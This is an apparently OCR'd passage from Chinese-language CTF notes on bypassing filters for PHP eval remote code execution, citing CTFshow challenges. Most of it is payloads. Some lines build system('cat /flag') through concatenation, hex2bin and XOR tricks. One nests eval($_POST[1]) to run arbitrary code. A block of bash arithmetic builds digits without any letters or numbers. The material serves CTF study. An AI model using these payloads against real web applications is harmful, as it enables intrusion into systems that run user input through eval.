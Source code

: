 
- eval函数下

  - 字符串拼接

    `a=(s.y.s.t.e.m)('cat /flag');`

  - 进制编码

    `a=hex2bin('73797374656d')('cat /flag');`

  - 异或

    `a=('0000000'^'CICDU]')('cat /flag');`

    `a=('404008008400'^'9598))08*980'^'~|~|||(*~~*)');`

  - 套娃

    `a=eval($_POST[1]);&1=phpinfo();`

- 纯数字构造（Linux系统级）

  复制

  ```
  $((${_}))
  #0
  
  $((~$((${_}))))
  #-1
  
  $((~$(($((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))+$((~$((${_}))))))))
  #36
  #去+号也可
  
  $((~$(($((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))))))
  #36	
  #去+号也可
  ```

参考：

[CTFshow-RCE极限大挑战](https://ctf-show.feishu.cn/docx/ToiJd70SboRn52xhn3WcJsfjnah)

[CTFshow-周末大挑战](https://ctf-show.feishu.cn/docx/EH72dMi3hoBtLJxDydjcIVcQnSc)



### 无参数/带参数RCE
